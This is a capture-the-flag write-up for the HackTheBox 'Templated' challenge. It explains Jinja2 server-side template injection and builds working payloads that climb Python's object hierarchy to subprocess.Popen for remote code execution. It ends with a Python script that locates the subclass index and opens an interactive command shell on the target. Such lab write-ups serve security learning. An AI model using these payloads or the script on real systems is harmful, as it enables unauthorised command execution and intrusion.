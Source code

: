 ```yaml
---
title: HackTheBox - Templated
date: 2022-05-13 21:30:00
categories: [HackTheBox, Challenges]
tags: [hackthebox, templated, ssti, jinja2, scripting, python]     # TAG names should always be lowercase
img_path: /assets/img/HackTheBox/Templated
---
```

SSTI or Server-Side Template Injection is a vulnerability that always really confused me but at the same time, really
interested me. Add those together and I went about finding out how it worked.<br>

Templating is a way in which developers can take dynamic data from a source and incorporate it into the page. It does
this by having placeholder variables written statically in the source and then having those variables replaced with
the dynamic data such as user input.<br>

In the case of Jinja2, these templates would be written in a way for the formatting engine to use them, such as in
the case of a 404 page:<br>
`The page{% raw %} {{'directory'}} {% endraw %}could not be found`<br>
Would render as:<br>
`The page 'AAAAA' could not be found`<br>

SSTI can occur when user input is concatenated into a template render rather than safely passed into the template.
This allows the user to render their own "templates".<br>

This is what is presumably happening in HackTheBox Templated. With a name like Templated and the only text on the
page referencing an under construction Jinja2 site, the vulnerability isn't exactly hiding.

![Jinja2](templated_jinja2.png "Jinja2")
_Jinja2_

Requesting a random directory, we see it is reflected back into the 404 page.

![404](templated_404.png "404")
_404_

We know it's running Jinja2, we can try and request `{%raw%}{{7 * 7}}{%endraw%}` to see if we can inject our own
"template".

![49](templated_49.png "49")
_Jinja2 SSTI_

Now it gets interesting. We have SSTI. Time to build a payload to get RCE on the container. In Python, everything
is an object and so everything involved in the Jinja2 server is accessible by bouncing around to different objects.<br>

For the first payload, we can bounce back a step to the `string` object by requesting:<br>
```
{%raw%}{{"1337.__class__"}}{%endraw%}
```

![class str](templated_classstr.png "class str")
_'<class 'str'>'_

Now that we're in the `'<class 'str'>'` object, we can take another step back to the base of the string object with:<br>
```
{%raw%}{{"1337".__class__.__base__}}{%endraw%}
```

![class object](templated_object.png "class object")
_'<class 'object'>'_

Now we're at the origin, since everything in Python is an object, everything inherits from this object meaning we can
bounce around anywhere we want. We can stop taking steps back and instead take a step forward into a subclass that'll 
allow us to execute commands. In order to enter the subclass we want, we first must list what subclasses are available 
for use:<br>
```
{%raw%}{{"1337".__class__.__base__.__subclasses__()}}{%endraw%}
```

![subclasses](templated_subclasses.png "subclasses")
_That's a lot of subclasses_

`Control + F` is your friend. We can use it to search for classes that'll help us out. In this instance, we can target
`subprocess.Popen`. This operates like a regular Python list. We need to find the index of `subprocess.Popen` in this
list. I'll go over how I found it later, but for now, it's `[414]`:<br>
```
{%raw%}{{"1337".__class__.__base__.__subclasses__()[414]}}{%endraw%}
```

![subprocess](templated_subprocess.png "subprocess")
_subprocess.Popen_

Now that we're right where we want to be. We can achieve RCE with this final payload:<br>
```
{%raw%}{{"1337".__class__.__base__.__subclasses__()[414]('cat flag.txt', shell=True, stdout=-1).communicate()[0]}}{%endraw%}
```


![solved](templated_solved.png "solved")
_Flag_

Now, we've solved the challenge but that's only half the fun. I'm now going to move onto making a nice script to
interact with the RCE. This script also includes how I found the index of `subprocess.Popen`.

---
# Script

The first half of the script will find the index of `subprocess.Popen`. In the interest of not slamming the challenge
with ~600 requests to find the index, I ballparked it around 400 - 500. It then simply checked for `subprocess.Popen`
in all of them and if it finds it, it sets the index in the URL for the second half of the script. You could easily 
hardcode the index after running it once and scrap this part of the script, but there's no fun in that.
{%raw%}
```python
#!/bin/env python3

import requests

challenge = ""

print("[+] Finding Subprocess...")

for i in range(400,500):
	challenge = "http://IP:PORT/{{'abc'.__class__.__base__.__subclasses__()[%s]}}" %i
	r = requests.get(challenge)
	if "subprocess.Popen" in r.text:
		print("[+] Subprocess Found at [{}]".format(i))
		break
```

Now that we have the index of `subprocess.Popen`, we can write the part of the script that'll interact with it in a
terminal-like interface.

```python
print("[+] Spawning Shell...")

while True:
	try:
		command = input("Path-IX> ")
		shell = challenge[:-2] + "('%s', shell=True, stdout=-1).communicate()[0].decode('utf-8').strip()}}" %command
		r = requests.get(shell)
		print("----------\n"+r.text[38:-30]+"\n----------")
	except KeyboardInterrupt:
		print("\n[+] Quitting...")
		quit()
```


Here it simply sets the RCE payload to whatever command is inputted and keeps it open in a constant loop until
KeyboardInterrupt. Added on some extra cleanup at the end of the payload to decode the output and I used
Python slices to cut down on the returned 404 message etc. The most satisfying part of writing a script isn't 
getting it working, it's making it look nice.


![Path-IX](templated_rce.png "Path-IX")
_Shell?_

Full script:
```python
#!/bin/env python3

import requests
challenge = ""

print("[+] Finding Subprocess...")

for i in range(400,500):
	challenge = "http://IP:PORT/{{'abc'.__class__.__base__.__subclasses__()[%s]}}" %i
	r = requests.get(challenge)
	if "subprocess.Popen" in r.text:
		print("[+] Subprocess Found at [{}]".format(i))
		break

print("[+] Spawning Shell...")

while True:
	try:
		command = input("Path-IX> ")
		shell = challenge[:-2] + "('%s', shell=True, stdout=-1).communicate()[0].decode('utf-8').strip()}}" %command
		r = requests.get(shell)
		print("----------\n"+r.text[38:-30]+"\n----------")
	except KeyboardInterrupt:
		print("\n[+] Quitting...")
		quit()
```
{%endraw%}
# :)
